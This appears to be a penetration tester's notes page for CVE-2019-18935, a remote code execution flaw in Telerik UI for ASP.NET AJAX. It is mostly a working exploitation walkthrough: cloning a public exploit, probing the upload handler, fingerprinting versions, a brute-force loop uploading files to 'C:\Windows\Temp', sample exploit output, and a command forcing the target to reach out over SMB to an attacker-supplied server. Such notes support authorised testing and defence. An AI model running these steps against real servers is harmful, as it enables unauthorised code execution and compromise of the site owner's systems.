 ```yaml
---
title : "CVE-2019-18935"
# pre : ' '
description : "Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution."
date : 2021-01-18T13:14:31+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-18935 - Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution

{{%attachments fa_icon_class="far fa-file-pdf" pattern=".*(pdf)"/%}}

## Installation

```plain
git clone https://github.com/noperator/CVE-2019-18935.git
```

### Confirm that the file upload handler is registered

```plain
curl -sk <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```

### Check version of the software installed

### Without authentication

If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version buried somewhere in the HTML source of the application's home page. The location of the version string isn't consistent, though, so the best method of locating it is to use Burp to search for the regular expression ```20[0-9]{2}(\.[0-9]*)+``` (and make sure you check the "Regex" box). You can also accomplish this with cURL:

```plain
curl -skL <host> | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'
```

If that doesn't work, you can alternatively search for the string ```<script src="/WebResource``` to identify any JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its ```Last-Modified``` date in the HTTP response header; that date should roughly match the release date of the software. For example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013) will read ```Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT``` in the HTTP response header for that file.

### With authentication

If the application does require authentication, then you may be able to determine the software version via brute force. Since uploading a file with RadAsyncUpload requires providing the correct version of Telerik UI, you can use Paul Taylor's [RAU_crypto](https://github.com/bao7uo/RAU_crypto) exploit to submit file upload requests with known-vulnerable versions until you find one that works:

```plain
echo 'test' > testfile.txt
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do
    echo -n "$VERSION: "
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
done
```

When the file upload succeeds, you'll see a JSON response containing some encrypted data about the uploaded file:

```plain
{"fileInfo":{"FileName":"<NAME>","ContentType":"text/html","ContentLength":<LENGTH>,"DateJson":"<DATE>","Index":0}, "metaData":"VGhpcyBpc24ndCByZWFsIGRhdGEsIGJ1dCB0aGUgQmFzZTY0LWVuY29kZWQgZGF0YSBsb29rcyBqdXN0IGxpa2UgdGhpcy4=" }
```

## Examples

### Check version

```plain
$ curl -skL https://example.com/ | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'              
2015.2.623.40
2015.2.623.40
2015.2.623.40
2015.2.623.40
```

### Upload test file

```plain
$ python3 CVE-2019-18935.py -p test.txt -t -f 'C:\Windows\Temp' -u https://www.example.com/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623
[*] Local payload name:  test.txt
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1610022896.082644.txt

{'fileInfo': {'ContentLength': 5,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1610022896.082644.txt',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2015.2.623.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1610022896.082644.txt.tmp'}}

[*] Heads up! Payload was renamed on target from "1610022896.082644.txt" to "1610022896.082644.txt.tmp". Will adjust automatically while deserializing; otherwise, if deserializing manually with the "-d" option, use the "-r" option to specify the accurate, renamed payload on target.
```

### Triggering SMB-outbound

```plain
python3 CVE-2019-18935.py -u https://<host>/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623 -s <ip-of-smb-server> -d
```

## URL List

- [Labs.bischopfox.com - RCE explanation](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-18935)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-18935)
